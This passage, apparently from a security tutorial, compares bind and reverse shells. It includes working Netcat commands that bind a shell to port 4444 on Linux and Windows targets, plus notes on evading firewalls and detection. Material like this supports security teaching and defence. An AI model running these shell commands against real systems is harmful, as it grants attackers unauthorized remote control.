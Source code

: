 - Simpler to set up in some scenarios
- Only requires one connection
- Useful when the attacker has direct access to the target network
- Works well when the target has a public IP address

### Disadvantages of Bind Shells

- Often blocked by firewalls that restrict inbound connections
- More likely to be detected by security monitoring
- Requires an open port on the target system
- May require port forwarding in NAT environments

### Example Bind Shell Setup (Netcat)

On target system:
```
nc -nlvp 4444 -e /bin/bash    # Linux
nc -nlvp 4444 -e cmd.exe      # Windows
```

On attacker system:
```
nc <target_ip> 4444
```

## Reverse Shells

### How Reverse Shells Work

1. The exploit creates a process on the target system that initiates a connection back to the attacker
2. The attacker sets up a listener to receive this connection
3. When the target connects to the attacker, a shell session is established
4. Commands are sent from attacker to target through this connection
5. The target executes these commands and returns output

### Reverse Shell Diagram
```
[Target System] → [Attacker]
                    |
                    | (Listening on port)
                    |
                    ↓
               [Shell Process]
```

### Advantages of Reverse Shells

- Bypasses most firewall restrictions (most firewalls allow outbound connections)
- Works with NAT without port forwarding
- More likely to evade detection
- Effective when the target is behind a firewall
